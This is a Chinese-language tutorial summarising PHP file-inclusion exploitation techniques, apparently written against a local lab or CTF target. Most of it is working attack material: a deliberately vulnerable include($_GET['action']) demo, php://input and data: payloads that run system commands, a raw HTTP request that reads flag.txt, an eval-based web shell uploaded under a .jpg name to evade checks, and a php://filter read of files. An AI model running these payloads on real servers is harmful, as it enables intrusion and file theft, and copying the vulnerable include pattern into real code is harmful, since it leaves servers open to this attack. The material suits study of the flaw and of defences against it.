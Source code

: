 ## 一些常见的文件包含漏洞的利用技法总结.

文件包含漏洞在服务器端代码中主要以下述形式的$php$代码呈现:

```php+HTML
/*demo.php*/
<?php
    include($_GET['action']);
?>

```

这里我们给出一些利用漏洞的方法.

### 1.php:://input伪协议的利用

我们可以利用$php$为协议, 一般在POST参数中构造我们想要注入的$php$语句.

###### GET 参数：

```http
/?action=php://input
```

###### Post 参数:

```php+HTML
<?php system("dir"); ?>
```

###### 或者:

```php+HTML
<?php echo file_get_contents("../../flag.txt");?>
```

###### http形式的完整注入payload如下:

```http
POST /labs/IncludeAttack/demo.php/?action=php://input HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 50

<?php echo file_get_contents("../../flag.txt");?>
```

在这里, 语句

```php
file_get_contents('php://input');
```

用于直接将POST参数本身作为字符串赋值或者回显.

#### 2.结合文件上传漏洞利用

在文件上传漏洞中,我们构造木马$virus.php$:

```php
/*virus.php*/
<?php
    eval($_POST['pwd']);
?>
```

在上传过程中捕获数据包,将后缀改为 .jpg 从而绕过前端的检查, 在靶机/ 目标服务器中我们有了一份可执行的病毒文件.

我们构造payload:

###### GET参数

```http
/?action=virus.jpg
```

###### POST参数

```php
pwd=system("dir");
// or pwd=system("ls -la");
// or pwd= echo file_get_contents("../../flag.txt");
```

#### 3.php://filter伪协议的利用

###### GET 参数

```http
php://filter/read=convert.base64-encode/resource=../../flag.txt
```

 回显内容是该路径下文件的base64加密格式.

#### 4.任意可执行文件注入

我们在GET参数中直接注入我们想让服务器执行的php脚本, 将特殊字符替换为 %ord(byte)的格式来解析从而避免闭合问题等.

注意GET参数必须是url编码格式下的php代码.

###### GET 参数

```http
// data: text/plain,<?php system("dir");?>
/?action=data%3a+text/plain,<%3fphp+system+%28"dir"%29%3b+%3f>
```

